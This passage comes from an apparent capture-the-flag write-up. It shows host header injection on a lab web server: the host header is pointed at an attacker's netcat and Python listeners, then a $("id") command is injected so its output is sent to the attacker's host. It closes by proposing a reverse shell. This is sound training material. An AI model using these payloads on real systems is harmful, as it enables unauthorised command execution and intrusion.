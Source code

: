 ```bash
< Date: Wed, 02 Feb 2022 20:04:08 GMT
Date: Wed, 02 Feb 2022 20:04:08 GMT
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
< Connection: keep-alive
Connection: keep-alive
```

For `curl` to request a resource it would first need to use the http host header followed by the resource's path which leads us to believe that the host header could be potentially vulnerable to [host header injection](https://portswigger.net/web-security/host-header)

Indeed if we open a listener and make a request on our attack host we will get a response, using Burp.

```bash
# Request (Burp)
GET / HTTP/1.1
Host: 10.8.0.115:5566
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

# Response (netcat)
nc -lnvp 5566
listening on [any] 5566 ...
connect to [10.8.0.115] from (UNKNOWN) [10.10.225.196] 45532
GET /api/product HTTP/1.1
Host: 10.8.0.115:5566
User-Agent: curl/7.68.0
Accept: */*

# Reponse (python)
python3 -m http.server 5566
Serving HTTP on 0.0.0.0 port 5566 (http://0.0.0.0:5566/) ...
10.10.225.196 - - [02/Feb/2022 15:31:24] code 404, message File not found
10.10.225.196 - - [02/Feb/2022 15:31:24] "GET /api/product HTTP/1.1" 404 -
```

We can take advantage of curl to execute commands on the host machine.

```bash
# Code injection on host header
Host: 10.8.0.115:5566?$("id") # ?`id` also works
# response
10.10.225.196 - - [02/Feb/2022 15:39:02] "GET /?uid=33(www-data) HTTP/1.1" 200 -
```

We have code execution we can use an encoded reverse shell to gain access to the filesystem.
